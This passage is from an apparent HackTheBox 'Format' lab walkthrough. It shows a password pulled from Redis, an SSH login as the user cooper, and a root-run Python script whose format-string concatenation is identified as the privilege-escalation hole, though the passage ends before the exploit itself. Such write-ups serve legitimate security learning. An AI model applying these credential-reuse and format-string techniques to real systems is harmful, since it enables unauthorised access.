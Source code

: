 ```bash
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
redis /var/run/redis/redis.sock>
```
creds: `cooper:zooperdoopercooper` . Login through SSH to get user flag
#### Shell as cooper
```bash
┌─[loc@parrot]─[~/HackTheBox/Medium/Format]
└──╼ $ssh cooper@10.10.11.213
cooper@10.10.11.21 password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64
-----
permitted by applicable law.
cooper@format:~$ id
uid=1000(cooper) gid=1000(cooper) groups=1000(cooper)
```
#### Priv Esc

```bash
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

This is a Python program, and we notice that the username is concatenated, and the following section is formatted as a hint for the format string `{license.license}`

```python
#cooper@format:~$ file /usr/bin/license
#/usr/bin/license: Python script, ASCII text executable
#cooper@format:~$ cat /usr/bin/license
#!/usr/bin/python3

import base64
...
#provision
if(args.provision):
    user_profile = r.hgetall(args.provision)
    if not user_profile:
        print("")
        print("User does not exist. Please provide valid username.")
        print("")
        sys.exit()
    existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```